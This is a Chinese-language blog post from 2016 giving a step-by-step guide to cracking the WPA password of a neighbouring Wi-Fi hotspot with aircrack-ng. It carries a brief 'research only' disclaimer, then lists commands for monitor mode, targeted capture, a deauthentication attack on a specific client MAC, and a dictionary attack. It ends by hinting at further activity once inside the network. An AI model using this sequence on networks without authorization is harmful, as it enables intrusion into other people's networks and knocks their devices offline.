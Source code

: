 title: crackWifiPasswd
date: 2016-02-15 17:30:25
tags: aircrack
categories: crack
---

### 无线破解
声明: 仅作研究的一个笔记。 在小区内有很多的wifi热点, 正好手头有一个无线网卡, 尝试破解wifi密码。

<!--more-->

### 背景知识

常用的wifi加密web、wpa、wpa2, wifi破解屌爆了的工具aircrack-ng, 密码字典。

### 破解实战
1. 将无线网卡处于混杂模式（能够监听周围通过网卡的数据）[是指一台机器的网卡能够接收所有经过它的数据流，而不论其目的地址是否是它](https://zh.wikipedia.org/wiki/%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F)

```bash
 airmon-ng
```
![](http://ww4.sinaimg.cn/mw690/63fe561egw1f1159fnr4lj214c0c8q60.jpg)

```bash
airmon-ng start wlan0
```

![](http://ww3.sinaimg.cn/mw690/63fe561egw1f115chobo8j214w0matgn.jpg)

`回显的时候 提示有些存在的进程可能会影响airodump正常工作，确保正常工作，需要执行一下命令`

```bash
airmon-ng check kill all
```
```bash
iwconfig wlan0mon # 查看网卡是否处于混杂模式
```

```bash
airodump-ng waln0mon # 查看周围的无线网络
```
![](http://ww1.sinaimg.cn/large/63fe561egw1f115lckxtdj21e80nkam7.jpg)

**语法:airodump-ng –channel [x] –bssid [bssid] –write [filename] [interface?mon0]**

```bash
airodump-ng  -w qiu --bssid FC:D7:33:82:5B:10 wlan0mon
```
`再开一个终端, 模拟客户端mac, 进行网络洪水攻击, 直到抓到重连握手包`

```bash
aireplay-ng -0 10 --ignore-negative-one  -a  FC:D7:33:82:5B:10  -c 2C:BE:08:7B:81:48  wlan0mon
```
```bash
aircrack-ng -w WPA字典.txt qiu-*.cap
```
![](http://ww2.sinaimg.cn/mw690/63fe561egw1f13jd6q1o7j217o0wgwpo.jpg)

**!hack the passwd**

### 后记

抓到wifi的握手包之后，就是跑密码字典了，精心设计密码字典，就会事半功倍！破解wifi之后，还有更多好玩的东西！

### 参考文献
[http://www.freebuf.com/articles/wireless/59809.html](http://www.freebuf.com/articles/wireless/59809.html)

[http://aircrack-ng.org/documentation.html](http://aircrack-ng.org/documentation.html)

[http://www.aircrack-ng.org/doku.php?id=cracking_wpa](http://www.aircrack-ng.org/doku.php?id=cracking_wpa)

[https://sweetll.me](https://sweetll.me/2014/11/ubuntu-14-10-%E5%AF%B9%E4%BA%8Ewifi%E5%AF%86%E7%A0%81%E7%9A%84%E7%A0%B4%E8%A7%A3%E7%A0%94%E7%A9%B6-%E4%BB%A5%E5%8F%8A%E7%A0%B4%E8%A7%A3wifi%E5%90%8E%E8%83%BD%E5%B9%B2%E4%BB%80%E4%B9%88/)